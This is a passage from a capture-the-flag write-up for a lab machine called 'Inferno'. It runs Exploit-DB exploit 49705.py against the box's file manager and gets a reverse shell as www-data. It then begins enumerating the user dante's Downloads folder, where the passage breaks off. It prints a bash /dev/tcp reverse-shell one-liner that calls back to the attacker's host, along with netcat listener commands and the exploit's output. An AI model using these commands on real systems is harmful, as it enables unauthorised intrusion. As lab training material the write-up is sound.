 ~~~
     Path: /usr/share/exploitdb/exploits/multiple/webapps/49705.py
File Type: ASCII text, with CRLF line terminators

Copied to: /data/Inferno/files/49705.py
~~~

Let's start the exploit (notice that you will need to execute the 2 following commands in 2 windows: `echo 'bash -c "bash -i >/dev/tcp/10.8.50.72/4445 0>&1 2>&1"' | nc -lnvp 4444` and `nc -lnvp 4445`)

~~~                                                                                                                 
┌──(kali㉿kali)-[/data/Inferno/files]
└─$ python3 49705.py http://admin:dante1@10.10.64.51/inferno/ admin dante1 10.8.50.72 4444 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.8.50.72/4445 0>&1 2>&1"' | nc -lnvp 4444
nc -lnvp 4445
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"admin"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"inferno","path":"\/var\/www\/html\/inferno"}}
[+] Writeable Path : /var/www/html/inferno
[+] Sending payload...
~~~

Now, we have a reverse shell.

~~~
┌──(kali㉿kali)-[/data/vpn]
└─$ nc -nlvp 4445            
listening on [any] 4445 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.64.51] 34558
bash: cannot set terminal process group (1005): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Inferno:/var/www/html/inferno/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@Inferno:/var/www/html/inferno/components/filemanager$ 
~~~

You'll notice that there is a cronjob that will log you off every minute, so you have to be quick.

## Lateral move (www-data -> dante)

Navigating through the files in `dante`'s home reveals an interesting file under `Downloads`:

~~~
www-data@Inferno:/var/www/html/inferno/components/filemanager$ cd ~/Downloads
cd ~/Downloads
www-data@Inferno:/home/dante/Downloads$ ls -la
ls -la
total 4420
drwxr-xr-x  2 root  root     4096 Jan 11 15:29 .
drwxr-xr-x 13 dante dante    4096 Jan 11 15:46 ..
-rw-r--r--  1 root  root     1511 Nov  3  2020 .download.dat
-rwxr-xr-x  1 root  root   137440 Jan 11 15:29 CantoI.docx
-rwxr-xr-x  1 root  root   141528 Jan 11 15:29 CantoII.docx
-rwxr-xr-x  1 root  root    88280 Jan 11 15:29 CantoIII.docx
-rwxr-xr-x  1 root  root    63704 Jan 11 15:29 CantoIV.docx
-rwxr-xr-x  1 root  root   133792 Jan 11 15:29 CantoIX.docx
-rwxr-xr-x  1 root  root    43224 Jan 11 15:22 CantoV.docx
-rwxr-xr-x  1 root  root   133792 Jan 11 15:29 CantoVI.docx
-rwxr-xr-x  1 root  root   141528 Jan 11 15:29 CantoVII.docx
~~~